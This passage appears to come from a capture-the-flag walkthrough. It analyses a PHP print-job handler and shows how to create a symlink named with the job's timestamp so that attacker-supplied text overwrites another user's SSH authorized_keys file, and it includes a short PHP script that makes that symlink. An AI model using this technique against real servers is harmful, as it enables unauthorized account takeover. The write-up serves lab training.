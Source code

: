 ```
                $result=$stmt->get_result();   
                if($result->num_rows > 0)            
                {                                                                                                    
                        $row=$result->fetch_assoc();                                                                 
                        $ip=$row["ip"];                   
                        $port=$row["port"];
                        try                               
                        {                                 
                                $connector = new NetworkPrintConnector($ip,$port);
                                sleep(0.5); //Buffer for socket check                                                
                                $printer = new Printer($connector);
                                $printer -> text(file_get_contents("/var/www/jobs/".$file));
                                $printer -> cut();        
                                $printer -> close();      
                                $message="Job assigned";                                                             
                                unlink("/var/www/jobs/".$file);
                        }                                                                                            
                        catch(Exception $error)           
                        {                                 
                                $error="Can't connect to printer.";
                                unlink("/var/www/jobs/".$file);
                        }                                 
                }                                         
                else                                      
                {                                                                                                    
                        $error="Couldn't find printer.";  
                }                                         
        }                                                 
```

We can see that it binds the current date/time in the format Y-m-d_H:i:s to a variable $file, puts the contents of whatever we put in the Description field on the website into the file, grabs the IP and Port from the jobs table in the database Quick (which we set when we created the printer on the website) and then gets the contents of the file it created (named Y-m-d_H:i:s) and sends them to the printer. 

PHP inherently doesn't follow symlinks, so we can't send the contents of a file to ourselves. However, the really interesting part is that it's placing the contents of the Description we entered into the file. We can use this to overwrite srvadm's authorized_keys file!

To avoid having to format the date and time in bash, I just used a simple PHP script:

filecreate.php:
```
<?php
$file = date("Y-m-d_H:i:s");
system('ln -s /home/srvadm/.ssh/authorized_keys '  . $file);

?>
```
